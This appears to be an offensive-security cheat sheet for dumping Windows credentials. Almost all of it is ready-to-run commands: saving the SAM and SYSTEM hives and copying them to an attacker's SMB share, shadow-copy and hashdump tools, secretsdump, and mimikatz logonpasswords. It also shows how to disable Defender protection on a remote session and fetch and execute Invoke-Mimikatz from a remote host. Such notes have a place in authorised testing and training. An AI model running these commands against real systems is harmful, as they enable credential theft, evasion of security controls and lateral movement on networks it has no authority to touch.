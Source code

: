 ### Get sam and system by registry (From old versions to recent versions)

```cmd
# windows
reg save hklm\sam <ip>.sam
reg save hklm\system <ip>.system
```
  transfer .sam and .system by SMB
```sh
# kali
impacket-smbserver share . -smb2support -user user -password test123
```
```cmd
# windows
net use z: \\<smbserver>\share /USER:user test123
copy C:\Users\Backup\sam.hive z:\
copy C:\Users\Backup\system.hive z:\
```

  View smb enumeration  
```
net view \\dc /all
net use * \\dc\c$
net use
```

### Volume shadow copy (Windows Server \ recent versions)

  vssadmin  
```
vssadmin create shadow /for=c:
```
  meterpreter  
```
hashdump
```
  samdump2 (Win 2k/NT/XP/Vista SAM)   
```
samdump2 system sam
```
  impacket-secretsdump  
```
impacket-secretsdump -sam sam -system system LOCAL
```

### Extracting Hashes in Domain and Pivoting

  Dump the credentials of all connected users, including cached hashes
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```
-> mimikatz + ScriptBlock
```
$sess = New-PSSession -ComputerName <hostname>
```
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
iex (iwr http://<ip>/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```
or  
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession $sess
Invoke-Mimikatz
```
